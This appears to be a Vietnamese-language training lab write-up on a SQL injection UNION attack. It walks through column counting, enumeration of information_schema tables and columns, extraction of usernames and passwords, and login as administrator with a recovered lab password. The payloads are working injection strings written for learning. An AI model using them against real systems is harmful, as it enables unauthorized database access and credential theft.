




## SQL injection attack, listing the database contents on non-Oracle databases

1. Để list thông tin các table tồn tại trong database ta truy xuất đến bảng được khởi tạo tự động ``information_schema`` chứa các thông tin như table name,table schema, type,column name,...

2. Xác định số cột trong câu truy vấn mặc định và cột có kiểu string.
Payload: 
- ```' UNION SELECT 'test', 'test' --```



-> Xác định có 2 cột và cả 2 cột đều có kiểu dữ liệu string.

3. Sử dụng UNION attack kết hợp SELECT từ bảng ``information_schema``. 
Payload: 
- ```' UNION SELECT 'test', table_name from information_schema.tables--```

4. Trong danh sách các bảng hiện lên, nhận thấy có bảng tên ``users_ueevqq`` khả nghi.



5. Sử dụng UNION attack kết hợp SELECT bảng ``information_schema`` từ bảng ``users_ueevqq`` để hiển thị danh sách các cột trong bảng. Nhận thấy thông tin tài khoản ``administrator`` cần tìm.
Payload: 
- ```' UNION SELECT 'test', column_name from information_schema.columns where table_name='users_ueevqq'--```



6. Nhận được tên 2 cột ``username_kquarw`` và ``password_udbjlv``. Dùng payload dưới để lấy thông tin của user
- ```' UNION SELECT username_kquarw, password_udbjlv FROM users_ueevqq--```



7. Đăng nhập với ``administrator::js3rmaijcbegg7dg0svd``